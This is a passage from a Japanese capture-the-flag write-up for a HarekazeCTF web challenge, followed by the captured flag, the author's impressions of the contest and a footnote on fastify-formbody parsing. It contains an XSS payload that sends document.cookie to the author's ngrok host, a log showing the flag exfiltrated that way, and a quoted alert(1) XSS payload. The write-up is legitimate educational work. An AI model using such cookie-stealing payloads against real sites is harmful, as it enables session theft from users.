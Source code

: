 1. bufferに直接`=img src=0 onerror=location="//b4d7d69fd802.ngrok.io?"+document.cookie=`を書き込む
1. 右端の`=`をインクリメント
1. 左端の`=`をデクリメント

になっています。`b4d7d69fd802.ngrok.io`は[ngrok](https://ngrok.com/)でホストしたURLです。また、

- 文字列を生成する部分は https://copy.sh/brainfuck/text.html
- デバッグには https://arkark.github.io/brainfuck-online-simulator

を使いました。

上のコードを投げると手元のログには
```
[2020-12-26T13:34:34.906Z]  "GET /?flag=HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/88.0.4298.0 Safari/537.36"
```
と表示されました。web問とはいったい。

### フラグ

```
HarekazeCTF{I_th1nk_w4sm_1s_e4s1er_t0_re4d_th4n_4smjs}
```

### 追記

この解法すごい。感動した：

<Tweet html='<blockquote class="twitter-tweet"><p lang="ja" dir="ltr">#%01-.++[-&lt;+]+[&gt;-]+&lt;img%20src=x%20onerror=alert(1)&gt;<br><br>めっちゃきれいにできた...</p>&mdash; こおしいず(っ&#39;ヮ&#39; )ﾉｼ🚩 (@kcz146) <a href="https://twitter.com/kcz146/status/1343716701842493440?ref_src=twsrc%5Etfw">December 29, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>

## 感想

全完やったー。うれしいな。
最近HITCON CTFやhxp CTFなどの激ムズ高難度CTFでボコボコにされていたので、癒やされました。

主にweb問しか見てないですが、ファイル配付やコード中のコメントなど、問題の本質に集中できるような親切な出題の仕方がされていて楽しんで取り組めました。任意のCTFがこうあってほしいです。難易度の勾配もちょうどよかったと思います。

来年はminiじゃないCTFも期待しています！


[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。